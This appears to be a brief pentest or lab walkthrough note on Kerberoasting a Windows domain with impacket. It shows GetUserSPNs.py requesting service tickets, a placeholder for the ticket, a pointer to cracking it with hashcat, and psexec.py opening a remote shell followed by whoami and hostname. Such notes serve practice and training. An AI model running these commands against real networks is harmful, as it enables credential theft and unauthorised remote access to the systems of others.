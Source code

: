 ```bash - kali
psexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

The above does not work (Intentionally)

```bash - kali
wget https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
```

```bash - kali
GetUserSPNs.py $DOMAIN/$USER:$PASSWORD -dc-ip $TARGET -request
```

==Insert service ticket here!==

Crack it with hashcat

[[Hashcat]]

```bash - kali
psexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

```command prompt - target
whomai
```

```command prompt - target
hostname
```
